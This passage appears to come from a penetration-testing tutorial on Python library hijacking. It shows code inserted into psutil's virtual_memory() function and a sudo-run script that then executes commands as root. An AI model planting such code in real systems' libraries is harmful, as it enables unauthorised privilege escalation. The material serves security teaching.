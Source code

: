 {% code title="/usr/local/lib/python3.8/dist-packages/psutil/__init__.py" overflow="wrap" lineNumbers="true" %}
```python
...SNIP...
def virtual_memory():

	...SNIP...
	
    global _TOTAL_PHYMEM
    ret = _psplatform.virtual_memory()
    # cached for later use in Process.memory_percent()
    _TOTAL_PHYMEM = ret.total
    return ret

...SNIP...
```
{% endcode %}

This is the part in the library where we can insert our code. It is recommended to put it right at the beginning of the function. There we can insert everything we consider correct and effective. We can import the module `os` for testing purposes, which allows us to execute system commands. With this, we can insert the command `id` and check during the execution of the script if the inserted code is executed.

### Module Contents - Hijacking

{% code title="/usr/local/lib/python3.8/dist-packages/psutil/__init__.py" overflow="wrap" lineNumbers="true" %}
```python
...SNIP...
def virtual_memory():

	...SNIP...
	#### Hijacking
	import os
	os.system('id')
	

    global _TOTAL_PHYMEM
    ret = _psplatform.virtual_memory()
    # cached for later use in Process.memory_percent()
    _TOTAL_PHYMEM = ret.total
    return ret

...SNIP...
```
{% endcode %}

Now we can run the script with `sudo` and check if we get the desired result.

### Privilege Escalation

```shell-session
user@target:~$ sudo /usr/bin/python3 ./mem_status.py

uid=0(root) gid=0(root) groups=0(root)
uid=0(root) gid=0(root) groups=0(root)
Available memory: 79.22%
```
